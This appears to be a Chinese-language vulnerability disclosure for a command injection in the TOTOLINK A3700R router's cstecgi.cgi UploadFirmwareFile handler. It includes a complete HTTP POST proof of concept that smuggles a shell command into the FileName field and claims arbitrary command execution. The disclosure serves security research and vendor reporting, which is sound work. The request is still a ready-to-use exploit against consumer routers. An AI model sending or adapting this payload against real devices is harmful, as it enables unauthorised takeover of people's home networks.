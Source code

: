 

### **概述**：
影响设备：totolink A3700R
影响固件版本：V9.1.2u.6165_20211012
影响：命令注入，可以导致任意命令执行
固件下载地址：<https://download.totolink.tw/uploads/firmware/A3700R/TOTOLINK_A3700R_V9.1.2u.6165_20211012.zip>
报送邮箱 : zwx918569613@gmail.com

![](Pasted%20image%2020231022165035.png)

### **漏洞**：
该漏洞位于`cstecgi.cgi`中的函数`FUN_0042f718`，函数别名`UploadFirmwareFile`

![](Pasted%20image%2020231022165445.png)


`cstecgi.cgi`通过`topicurl`的值实现处理不同的函数接口
这里我们通过构造参数`FileName`，可以传入下面封装好的`doSystem`函数，并且`doSystem`没有过滤，通过构造合适的payload可以实现任意命令执行


### **POC**:

复现漏洞可以通过使用真机或者使用qemu模拟
使用下方POC可以打通

~~~
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.122.15
Content-Length: 73
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.122.15
Referer: http://192.168.122.15/basic/index.html?time=1697964093345
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: SESSION_ID=2:1697964047:2
Connection: close


{"topicurl":"UploadFirmwareFile","FileName":";ls;"}
~~~

### **影响效果**：

![](Pasted%20image%2020231022170210.png)